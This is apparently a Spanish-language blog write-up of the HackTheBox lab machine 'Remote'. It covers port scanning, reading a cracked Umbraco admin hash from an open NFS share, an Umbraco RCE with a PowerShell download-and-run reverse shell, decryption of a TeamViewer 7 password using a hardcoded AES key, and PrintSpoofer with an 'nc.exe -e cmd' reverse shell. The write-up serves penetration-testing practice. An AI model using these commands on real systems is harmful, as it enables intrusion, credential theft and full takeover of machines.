 ```yaml
---
title: HackTheBox - Remote
author: cotes
date: 2023-09-22 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'Information Leakage', 'Umbraco 7.12.4 RCE', 'TeamViewer Exploitation', 'PrintSpoofer']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Remote/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Remote Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, Team Viewer Exploitation, PrintSpoofer**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Remote/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Remote/02-versions.png)

* Realizamos un fuzzing al servicio web

    ```bash
    ❯ dirsearch -u http://<IP Remote>/

    <SNIP>
    [14:27:26] 200 -    6KB - /umbraco/webservices/codeEditorSave.asmx
    ```

    > **Umbraco** es un CMS desarrollado en C# para Microsoft
    {: .prompt-info }

* Lo más interesante del servicio **rpcbind** que existe el servicio NFS. Listamos las monturas disponibles

    ```bash
    ❯ showmount -e <IP Remote>
    Export list for 10.10.10.180:
    /site_backups (everyone)
    ```

* Creamos un directorio con el nombre de la montura en `/mnt` y lo montamos

    ```bash
    ❯ mkdir site_backups
    ❯ mount -t nfs <IP Remote>:/site_backups /mnt/site_backups
    ```

c. Ahora ya podemos listar todo el contenido. Al investigar por algún fichero en el que se almacenen credenciales encontramos este [post](https://our.umbraco.com/forum/getting-started/installing-umbraco/35554-Where-does-Umbraco-store-usernames-and-passwords). Aquí nos mencionan que existen credenciales en **App_Data/Umbraco.sdf**

```bash
❯ strings Umbraco.sdf | less

adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
<SNIP>
```

* Obtenemos un correo **admin@htb.local** y un hash **b8be16afba8c314ad33d812f22a04991b90e2aaa** el cual crackearemos con john

    ```bash
    ❯ john admin_hash -w=/usr/share/wordlists/rockyou.txt

    baconandcheese
    ```

d. Estas credenciales nos servirán para el panel de login de **Umbraco**. Una vez dentro, podemos ver la versión de este CMS

![](/assets/images/HTB/Easy/Remote/03-version.png)

* Buscamos un exploit para esta versión de Umbraco [Exploit Db](https://www.exploit-db.com/exploits/46153)

* Primero, nos descargamos [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) y le añadimos esta línea al final

    ```ps1
    Invoke-PowerShellTcp -Reverse -IPAddress <tun0 IP> -Port 443
    ```

* Ahora modificamos el script 

    ```python
    login = "admin@htb.local";
    password="baconandcheese";
    host = "http://<IP Remote>";


    <SNIP>
    string cmd = "/c powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.14.18/reverse.ps1\')"
    proc.StartInfo.FileName = "cmd.exe";
    <SNIP>
    ```

* Montamos un servicio con python, nos ponemos en escucha con nc y ejecutamos el exploit

    ![](/assets/images/HTB/Easy/Remote/04-reverse.png)

### Escalada de Privilegios 💹

Existen 2 formas de escalar privilegios

a. Al investigar un poco el sistema veremos que existe un TeamViewer 7

```ps1
PS C:\Program Files (x86)\TeamViewer> dir

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ---- 
d-----        2/27/2020  10:35 AM                Version7
```

* Si investigamos alguna forma de explotarlo conseguiremos este [exploit](https://github.com/zaphoxx/WatchTV/blob/master/WatchTV.ps1)

b. Los pasos que debemos seguir son

```ps1
PS C:\Program Files (x86)\TeamViewer\Version7> cd HKLM:\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7
PS HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7> (get-itemproperty .).SecurityPasswordAES
```

* El output del último comando lo pasaremos a una lista.

* Ahora con un script en python obtendremos la contraseña en texto claro

    ```python
    from itertools import product
    from Crypto.Cipher import AES
    import Crypto.Cipher.AES

    key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    IV = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    decipher = AES.new(key,AES.MODE_CBC,IV)

    password_encode = bytes([255,155,28,115,214,107,206,49,172,65,62,174,19,27,70,79,88,47,108,226,209,225,243,218,126,141,55,107,38,57,78,91])
    plaintext = decipher.decrypt(password_encode).decode()
    print("[+] Password:", plaintext)
    -----------------------------------------------------------------------------------------------------------------------------------------------
    ❯ python3 decrypt.py
    [+] Password: !R3m0te!
    ```

* Con esta credencial nos podemos conectar con evil-winrm

    ```bash
    ❯ evil-winrm -i 10.10.10.180 -u administrator -p '!R3m0te!'
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    remote\administrator
    ```

a. La segunda forma es ejecutando [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0). Lo pasamos a la máquina víctima, en conjunto con nc.exe

```bash
❯ ls
PrintSpoofer64.exe
nc.exe
❯ python -m http.server 80
-------------------------------------------------------------------------------------------
PS C:\Temp> iwr -Uri "http://<tun0 IP>/PrintSpoofer64.exe" -OutFile ".\PrintSpoofer64.exe"
PS C:\Temp> iwr -Uri "http://<tun0 IP>/nc.exe" -OutFile ".\nc.exe"
```

* Ahora nos enviamos una reverse shell y ya seremos **nt authority\system**

    ```bash
    PS C:\Temp> .\PrintSpoofer64.exe -i -c "C:\Temp\nc.exe -e cmd 10.10.14.18 4444"


    ❯ nc -lvnp 4444
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.
    ----------------------------------------------------
    C:\Windows\system32>whoami
    nt authority\system
    ```